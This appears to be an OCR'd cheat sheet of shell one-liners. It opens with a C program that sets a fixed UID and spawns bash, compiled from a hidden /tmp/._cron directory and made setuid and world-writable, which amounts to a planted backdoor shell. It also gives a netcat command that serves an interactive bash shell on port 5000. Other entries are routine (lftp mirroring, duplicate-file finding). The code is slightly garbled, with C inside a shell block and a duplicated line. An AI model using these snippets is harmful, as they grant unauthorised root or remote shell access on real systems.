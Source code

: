 ### C program to get a shell

```sh
#include <stdlib.h>
#include <unistd.h>

int main() {
    setresuid(1028, 1028, 1028);
    setresuid(1028, 1028, 1028);  
    system("/bin/bash");
    return 0;
}

#### Compile and prepare

gcc -o /tmp/pwned /tmp/._cron/shell.c
chmod +s /tmp/pwned   
chmod a+rwx /tmp/pwned
```

### If you need to kill a specific process using a given port

```sh
fuser -k 445/tcp
```

### Broadcast your shell thru port 5000

```sh
bash -i 2>&1 | tee /dev/stderr | nc -l 5000
```

### You can use the following trick to easy navigate and select paths

```sh
mkdir fooPath && cd $_
```

###  Fastest segmented parallel sync of a remote directory over ssh

```sh
lftp -u user,pwd -e "set sftp:connect-program 'ssh -a -x -T -c arcfour -o Compression=no'; \
mirror -v -c --loop --use-pget-n=3 -P 2 /remote/dir/ /local/dir/; quit" sftp://remotehost:22
```

###  Find dupe files and colorize output:

```sh
find /glftpd/site/archive -type f | \
	egrep '([0-9]\{1,9\})\.[^.]\+$'|parallel -n1 -j200% md5sum ::: | \
	awk 'x[$1]++ { print $2 " :::"}' |  \
	sed 's/^/Dupe: /g' | \
	sed 's,Dupe,\x1B[31m&\x1B[0m,'
```
